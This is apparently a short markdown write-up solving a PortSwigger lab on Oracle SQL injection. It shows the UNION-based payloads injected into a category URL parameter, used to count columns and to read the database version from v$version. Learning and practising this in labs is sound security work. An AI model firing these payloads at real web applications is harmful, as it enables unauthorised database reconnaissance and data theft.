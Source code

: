 ```yaml
---
title: PSA - SQLi 7 - UNION attack, querying the database type and version on Oracle
date: 2023-03-15
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, display the Oracle database version string.

## ✅ Solution

> On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`

Number of columns:

````text
<website>/filter?category=Pets' UNION SELECT NULL FROM DUAL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL FROM DUAL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL FROM DUAL--    # error!
````

Is one column containing string?

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL FROM DUAL--    # works
````

Full payload:

````text
<website>/filter?category=Pets' UNION SELECT banner,NULL FROM v$version--
````

The database type and version are displayed.
